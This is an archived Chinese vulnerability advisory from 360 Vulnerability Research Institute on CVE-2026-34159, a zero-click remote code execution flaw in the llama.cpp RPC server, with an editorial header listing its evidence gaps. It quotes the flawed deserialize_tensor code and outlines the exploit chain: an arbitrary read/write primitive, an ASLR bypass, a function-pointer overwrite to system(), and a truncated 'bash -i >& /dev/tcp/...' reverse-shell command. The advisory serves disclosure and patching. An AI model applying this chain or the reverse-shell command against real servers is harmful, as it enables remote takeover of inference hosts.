


# LLM 推理引擎 llama.cpp 零点击 RCE 漏洞：从 Null Buffer 到绕过 PIE/Full RELRO/NX 利用链(CVE-2026-34159)

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- RPC进程启用和端口可达前提需字段化
- b8492修复与影响范围未提取
- 所谓核心代码省略result和buffer_size声明应标片段
- 任意读写到system参数布局缺复现代码需核原研究
- 完整EXP已公开但仅截图/NVD未给代码URL
- 作者已复现不等本库验证
- Full RELRO仅保护GOT过度简化
- HTML表和营销内容膨胀

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

原创 360漏洞研究院
                    360漏洞研究院  360漏洞研究院   2026-04-28 08:23  
  
“扫描下方二维码，进入公众号粉丝交流群。更多一手网安资讯、漏洞预警、技术干货和技术交流等您参与！”  
  
  
  
  
  
  
llama.cpp 曝出 RPC 服务零点击远程代码执行漏洞（CVE-2026-34159，CVSS 3.1：9.8），攻击者无需任何交互，仅需向开启 RPC 服务的后端发送构造的张量数据包，即可通过绕过内存边界校验实现任意地址读写，最终获取服务器系统权限。  
  
  
利用条件限制：  
- 开启了 rpc-server 进程  
  
- 攻击者能够访问RPC端口  
  
目前 **360漏洞挖掘智能体已成功复现该漏洞**  
。本文包含完整影响范围、修复方案、技术原理与复现细节，建议用户立即升级。  
  
  
<table><tbody><tr style="box-sizing: border-box;"><td colspan="4" data-colwidth="100.0000%" width="100.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;background-color: rgb(100, 130, 228);box-sizing: border-box;padding: 0px;"><section style="text-align: center;color: rgb(255, 255, 255);box-sizing: border-box;"><p style="margin: 0px;padding: 0px;box-sizing: border-box;"><strong style="box-sizing: border-box;"><span leaf="">漏洞概述</span></strong></p></section></td></tr><tr style="box-sizing: border-box;"><td data-colwidth="24.0000%" width="24.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;box-sizing: border-box;padding: 0px;"><section style="font-size: 12px;color: rgb(0, 0, 0);padding: 0px 8px;box-sizing: border-box;"><p style="white-space: normal;margin: 0px;padding: 0px;box-sizing: border-box;"><strong style="box-sizing: border-box;"><span leaf="">漏洞名称</span></strong></p></section></td><td colspan="3" data-colwidth="76.0000%" width="76.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;box-sizing: border-box;padding: 0px;"><section style="font-size: 12px;padding: 0px 8px;box-sizing: border-box;"><p style="white-space: normal;margin: 0px;padding: 0px;box-sizing: border-box;"><span leaf="">llama.cpp RPC 服务零点击远程代码执行漏洞</span></p></section></td></tr><tr style="box-sizing: border-box;"><td data-colwidth="24.0000%" width="24.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;box-sizing: border-box;padding: 0px;"><section style="font-size: 12px;color: rgb(0, 0, 0);padding: 0px 8px;box-sizing: border-box;"><p style="white-space: normal;margin: 0px;padding: 0px;box-sizing: border-box;"><strong style="box-sizing: border-box;"><span leaf="">漏洞编号</span></strong></p></section></td><td colspan="3" data-colwidth="76.0000%" width="76.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;box-sizing: border-box;padding: 0px;"><section style="font-size: 12px;padding: 0px 8px;box-sizing: border-box;"><p style="white-space: normal;margin: 0px;padding: 0px;box-sizing: border-box;"><span leaf="">CVE-2026-34159</span></p></section></td></tr><tr style="box-sizing: border-box;"><td data-colwidth="24.0000%" width="24.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;box-sizing: border-box;padding: 0px;"><section style="font-size: 12px;color: rgb(0, 0, 0);padding: 0px 8px;box-sizing: border-box;"><p style="white-space: normal;margin: 0px;padding: 0px;box-sizing: border-box;"><strong style="box-sizing: border-box;"><span leaf="">公开时间</span></strong></p></section></td><td data-colwidth="28.0000%" width="28.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;box-sizing: border-box;padding: 0px;"><section style="font-size: 12px;padding: 0px 8px;box-sizing: border-box;"><p style="white-space: normal;margin: 0px;padding: 0px;box-sizing: border-box;"><span style="box-sizing: border-box;"><span leaf="">2026-03-26</span></span></p></section></td><td data-colwidth="28.0000%" width="28.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;box-sizing: border-box;padding: 0px;"><section style="font-size: 12px;padding: 0px 8px;box-sizing: border-box;"><p style="white-space: normal;margin: 0px;padding: 0px;box-sizing: border-box;"><strong style="box-sizing: border-box;"><span style="color: rgb(0, 0, 0);box-sizing: border-box;"><span leaf="">POC状态</span></span></strong></p></section></td><td data-colwidth="20.0000%" width="20.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;box-sizing: border-box;padding: 0px;"><section style="font-size: 12px;padding: 0px 8px;color: rgb(100, 130, 228);box-sizing: border-box;"><p style="white-space: normal;margin: 0px;padding: 0px;box-sizing: border-box;"><strong style="box-sizing: border-box;"><span leaf="">已公开</span></strong></p></section></td></tr><tr style="box-sizing: border-box;"><td data-colwidth="24.0000%" width="24.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;box-sizing: border-box;padding: 0px;"><section style="font-size: 12px;color: rgb(0, 0, 0);padding: 0px 8px;box-sizing: border-box;"><p style="white-space: normal;margin: 0px;padding: 0px;box-sizing: border-box;"><strong style="box-sizing: border-box;"><span leaf="">漏洞类型</span></strong></p></section></td><td data-colwidth="28.0000%" width="28.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;box-sizing: border-box;padding: 0px;"><section style="font-size: 12px;padding: 0px 8px;box-sizing: border-box;"><p style="white-space: normal;margin: 0px;padding: 0px;box-sizing: border-box;"><span leaf="">逻辑缺陷</span></p></section></td><td data-colwidth="28.0000%" width="28.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;box-sizing: border-box;padding: 0px;"><section style="font-size: 12px;color: rgb(0, 0, 0);padding: 0px 8px;box-sizing: border-box;"><p style="white-space: normal;margin: 0px;padding: 0px;box-sizing: border-box;"><strong style="box-sizing: border-box;"><span leaf="">EXP状态</span></strong></p></section></td><td data-colwidth="20.0000%" width="20.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;box-sizing: border-box;padding: 0px;"><section style="font-size: 12px;padding: 0px 8px;color: rgb(100, 130, 228);box-sizing: border-box;"><p style="white-space: normal;margin: 0px;padding: 0px;box-sizing: border-box;"><strong style="box-sizing: border-box;"><span leaf="">已公开</span></strong></p></section></td></tr><tr style="box-sizing: border-box;"><td data-colwidth="24.0000%" width="24.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;box-sizing: border-box;padding: 0px;"><section style="font-size: 12px;padding: 0px 8px;box-sizing: border-box;"><p style="white-space: normal;margin: 0px;padding: 0px;box-sizing: border-box;"><strong style="box-sizing: border-box;"><span style="color: rgb(0, 0, 0);box-sizing: border-box;"><span leaf="">利用可能性</span></span></strong></p></section></td><td data-colwidth="28.0000%" width="28.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;box-sizing: border-box;padding: 0px;"><section style="font-size: 12px;padding: 0px 8px;box-sizing: border-box;"><p style="white-space: normal;margin: 0px;padding: 0px;box-sizing: border-box;"><span leaf="">高</span></p></section></td><td data-colwidth="28.0000%" width="28.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;box-sizing: border-box;padding: 0px;"><section style="font-size: 12px;padding: 0px 8px;color: rgb(0, 0, 0);box-sizing: border-box;"><p style="white-space: normal;margin: 0px;padding: 0px;box-sizing: border-box;"><strong style="box-sizing: border-box;"><span leaf="">技术细节状态</span></strong></p></section></td><td data-colwidth="20.0000%" width="20.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;box-sizing: border-box;padding: 0px;"><section style="font-size: 12px;padding: 0px 8px;color: rgb(100, 130, 228);box-sizing: border-box;"><p style="white-space: normal;margin: 0px;padding: 0px;box-sizing: border-box;"><strong style="box-sizing: border-box;"><span leaf="">已公开</span></strong></p></section></td></tr><tr style="box-sizing: border-box;"><td data-colwidth="24.0000%" width="24.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;box-sizing: border-box;padding: 0px;"><section style="font-size: 12px;color: rgb(0, 0, 0);padding: 0px 8px;box-sizing: border-box;"><p style="white-space: normal;margin: 0px;padding: 0px;box-sizing: border-box;"><strong style="box-sizing: border-box;"><span leaf="">CVSS 3.1</span></strong></p></section></td><td data-colwidth="28.0000%" width="28.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;box-sizing: border-box;padding: 0px;"><section style="font-size: 12px;padding: 0px 8px;box-sizing: border-box;"><p style="white-space: normal;margin: 0px;padding: 0px;box-sizing: border-box;"><span leaf="">9.8</span></p></section></td><td data-colwidth="28.0000%" width="28.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;box-sizing: border-box;padding: 0px;"><section style="font-size: 12px;color: rgb(0, 0, 0);padding: 0px 8px;box-sizing: border-box;"><p style="white-space: normal;margin: 0px;padding: 0px;box-sizing: border-box;"><strong style="box-sizing: border-box;"><span leaf="">在野利用状态</span></strong></p></section></td><td data-colwidth="20.0000%" width="20.0000%" style="border-width: 1px;border-color: rgb(100, 130, 228);border-style: solid;box-sizing: border-box;padding: 0px;"><section style="font-size: 12px;padding: 0px 8px;box-sizing: border-box;"><p style="white-space: normal;margin: 0px;padding: 0px;box-sizing: border-box;"><span leaf="">未发现</span></p></section></td></tr></tbody></table>  
  
  
**01**  
  
**漏洞影响范围**  
  
  
  
受影响的软件版本：  
  
受影响版本 < b8492  
  
  
**02**  
  
**修复建议**  
  
  
  
**正式防护方案**  
  
受影响用户升级至 b8492 或更高版本。  
  
  
**03**  
  
**漏洞描述**  
  
  
  
近日，官方披露了 llama.cpp RPC 服务零点击远程代码执行漏洞（CVE-2026-34159）。漏洞根源在于 RPC 服务器在处理传入张量（Tensor）反序列化时的逻辑校验缺失。在 ggml-rpc.cpp 的 deserialize_tensor 函数中，对 buffer 句柄的验证逻辑存在严重漏洞：  
  
**核心代码（ggml-rpc.cpp:1158）：**  
```
ggml_tensor * rpc_server::deserialize_tensor(struct ggml_context * ctx, const rpc_tensor * tensor){
// [1] 解析 buffer 句柄
    result->buffer = reinterpret_cast<ggml_backend_buffer_t>(tensor->buffer);
if (result->buffer && buffers.find(result->buffer) == buffers.end()) {
        result->buffer = nullptr;
    }
// [2] 关键逻辑点：仅在 buffer != 0 时才执行边界校验 (Bounds Check)
if (result->buffer) {
uint64_t tensor_size  = (uint64_t) ggml_nbytes(result);
uint64_t buffer_start = (uint64_t) ggml_backend_buffer_get_base(result->buffer);
        GGML_ASSERT(tensor->data >= buffer_start && tensor->data + tensor_size <= buffer_start + buffer_size);
    }
// ^^^^ 如果攻击者设置 tensor->buffer = 0，上述安全检查将被完全绕过
// [3] 漏洞点：地址赋值无条件执行
    result->data = reinterpret_cast<void *>(tensor->data); // <-- 攻击者完全控制的任意地址
return result; 
}
```  
  
通过将 buffer 设为 0，攻击者可以使 result->data 指向进程空间的**任意虚拟地址**  
。配合 GGML_OP_CPY 指令，攻击者可构造出针对服务器内存的任意读写原语。  
  
在防御绕过层面，由于 **Full RELRO**  
 仅保护 GOT 表，攻击者针对堆上分配的 ggml_backend_buffer_i 结构体（包含大量函数指针且可写）进行攻击。  
  
**ASLR 绕过**  
：泄露堆上虚表指针，逆向扫描 \x7fELF 确定库基址。  
  
**劫持执行**  
：利用任意写原语，将 iface.clear 函数指针覆盖为 system() 地址，并将缓冲区起始位置填充为恶意指令（如反弹 Shell）。  
  
**触发 RCE**  
：调用 BUFFER_CLEAR，使服务器执行 buffer->iface.clear(buffer)，实质演变为 system("bash -i >& /dev/tcp/...")。  
  
  
**04**  
  
**漏洞复现**  
  
  
  
360 漏洞研究院已成功复现 llama.cpp RPC 服务零点击远程代码执行漏洞（CVE-2026-34159）。在开启 PIE + Full RELRO + NX 的 Ubuntu 环境下完成 EXP 验证。通过构造多级张量计算图，成功突破内存防护限制，拿到 RPC 进程的反弹 Shell。  
  
  
  
发送反弹 Shell 数据包到服务器  
  
  
  
CVE-2026-34159 llama.cpp RPC 服务零点击远程代码执行漏洞复现  
  
  
**05**  
  
**时间线**  
  
  
  
2026年04月28日，360漏洞研究院发布本安全风险通告。  
  
  
**06**  
  
参考链接  
  
  
  
https://nvd.nist.gov/vuln/detail/CVE-2026-34159  
  
  
07  
  
更多漏洞情报  
  
  
  
建议您订阅360数字安全-漏洞情报服务，获取更多漏洞情报详情以及处置建议，让您的企业远离漏洞威胁。  
  
  
邮箱：360VRI@360.cn  
  
网址：https://vi.loudongyun.360.net  
  
  
  
“洞”悉网络威胁，守护数字安全  
  
  
**关于我们**  
  
  
360 漏洞研究院，隶属于360数字安全集团。其成员常年入选谷歌、微软、华为等厂商的安全精英排行榜, 并获得谷歌、微软、苹果史上最高漏洞奖励。研究院是中国首个荣膺Pwnie Awards“史诗级成就奖”，并获得多个Pwnie Awards提名的组织。累计发现并协助修复谷歌、苹果、微软、华为、高通等全球顶级厂商CVE漏洞3000多个，收获诸多官方公开致谢。研究院也屡次受邀在BlackHat，Usenix Security，Defcon等极具影响力的工业安全峰会和顶级学术会议上分享研究成果，并多次斩获信创挑战赛、天府杯等顶级黑客大赛总冠军和单项冠军。研究院将凭借其在漏洞挖掘和安全攻防方面的强大技术实力，帮助各大企业厂商不断完善系统安全，为数字安全保驾护航，筑造数字时代的安全堡垒。  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
